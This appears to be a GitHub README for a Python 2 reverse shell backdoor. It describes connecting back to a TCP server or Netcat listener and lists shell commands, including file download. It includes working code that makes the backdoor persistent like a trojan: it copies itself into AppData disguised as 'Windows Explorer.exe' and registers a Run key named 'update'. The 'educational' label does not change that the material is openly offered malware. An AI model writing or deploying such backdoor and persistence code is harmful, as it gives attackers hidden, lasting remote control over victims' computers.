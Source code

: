 # Python2-Reverse-Shell-Backdoor
Reverse Shell Backdoor made with Python2 using socket
Made for educational porpuse 
Reverse Shell Backdoor made with Python2 using Socket
TCp/Ip Server
Can use The TCP/Ip server or use Netcat
Commands of the Shell:
"cd"
"pwd"
"descargar"
"exit"
Can be persistent like a trojan
using shutil

def become_Persistent(self):
        evil_file_location = os.environ["appdata"] + "\\Windows Explorer.exe"
        if not os.path.exists(evil_file_location):
            shutil.copyfile(sys.executable, evil_file_location)
            subprocess.call('reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ /d + "'+ evil_file_location + '"', shell = True)


